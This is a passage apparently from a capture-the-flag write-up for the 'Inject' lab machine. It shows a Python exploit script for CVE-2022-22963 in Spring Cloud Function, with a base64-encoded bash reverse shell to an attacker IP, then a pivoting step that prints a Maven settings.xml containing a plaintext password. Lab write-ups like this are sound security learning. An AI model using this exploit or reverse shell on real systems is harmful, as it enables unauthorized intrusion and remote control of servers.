 ```python
def vuln(code,text):
    resp = '"error":"Internal Server Error"'
    if code == 500 and resp in text:
        print(f'[+] {args.url} is vulnerable\n')
        return True
    else:
        print(f'[-] {args.url} is not vulnerable\n')
        return False

if __name__ == "__main__":
    
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", "--url", dest="url", help="URL of the site with spring F
ramework, example: http://vulnerablesite.com:8080")
    args = parser.parse_args()
    
    if args.url is None:
        parser.print_help()
        sys.exit(1)
    
    print(f"[+] Target {args.url}\n")
    print(f"[+] Checking if {args.url} is vulnerable to CVE-2022-22963...\n")
    response = exploit(args.url,"touch /tmp/pwned")
    v = vuln(response.status_code,response.text)
    if v == True:
        chk = input("[/] Attempt to take a reverse shell? [y/n]")
        if chk == 'y' or chk == 'Y':
            listener_thread = Thread(target=nc_listener)
            listener_thread.start()
            time.sleep(2)
            attacker_ip=input("[$$] Attacker IP:  ")
            command = f"bash -i >& /dev/tcp/{attacker_ip}/4444 0>&1"
            final_command = 'bash -c {echo,' + ((str(base64.b64encode(command.encode('
utf-8')))).strip('b')).strip("'") + '}|{base64,-d}|{bash,-i}'
            exploit(args.url,final_command)
    else:
        exit(0)
```

![](Pasted%20image%2020250530185638.png)

## Pivoting

I discovered a hidden directory called `.m2` inside `frank`'s home directory, which contains a file called `settings.xml`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
```